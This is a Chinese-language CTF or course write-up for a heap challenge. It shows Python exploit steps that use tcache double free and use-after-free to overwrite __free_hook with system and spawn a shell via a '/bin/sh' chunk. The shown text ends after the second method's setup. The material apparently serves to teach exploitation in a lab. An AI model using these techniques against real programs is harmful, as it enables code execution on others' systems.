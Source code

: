 ### 方法一: Double Fee
有了libc address後，我們要想辦法把system address寫到`__free_hook`的位置，如果是要用double free的方法的話可以參考上課的講義:
![image](https://hackmd.io/_uploads/SJNM1Mf8T.png)

最簡單的方法是，我把tcache填滿(一定要)，然後用free(a)→free(b)→free(a)的順序產生double free
```python
for i in range(1, 0xa):
    add_note(i, 0x10)

for i in range(1, 0x8):
    del_note(i)

del_note(8)
del_note(9)
del_note(8)
```
此時的heapinfo會變成:
![image](https://hackmd.io/_uploads/H1GGgGM86.png)

接著我們把tcache清空後再繼續add_note就會把fastbin的free chunk搬到tcache中
```python
add_note(8, 0x18)
```
![image](https://hackmd.io/_uploads/B1ErzMM8T.png)

接著我們寫free_hook address到note #8，這樣的話，tcache的順序就會變成下圖:
```python
write_note(8, p64(free_hook))
```
![image](https://hackmd.io/_uploads/rktIXGMIp.png)

此時我們就把free chunk變成free_hook的地址，我們只不斷的add_note，就可以把tcache的free chunk要回來進行寫入，也就是寫system address:
```python
bin_sh = u64(b'/bin/sh\x00')
add_note(9, 0x10)
write_note(9, p64(bin_sh))
add_note(10, 0x10)
add_note(11, 0x10)
write_note(11, p64(system_addr))
```
![image](https://hackmd.io/_uploads/SydnNzMIa.png)

最後的結果如上圖，會發現note #11已經變成==0x7f900aa8ae48==，這個就是`__free_hook`的位址，進去看發現已經被我們寫入system address，這個時候我們只要把含有`/bin/sh\x00`的note #9 free掉，就可以開shell了

### 方法二: 一般的寫入
這一個方法比較方便，也和double free沒關係，反正我們只要利用UAF的特性，也可以把free chunk的fd改掉，再用像前面的方法就可以開shell

下面的建構就是先開兩個note，然後free掉，此時我們就可以利用UAF的漏洞把free chunk的fd改掉，結果如下圖
![image](https://hackmd.io/_uploads/B1ohIMz86.png)
```python
add_note(1, 0x18)
add_note(2, 0x18)
del_note(2)
del_note(1)
write_note(1, p64(free_hook) + p64(0) * 2)
```
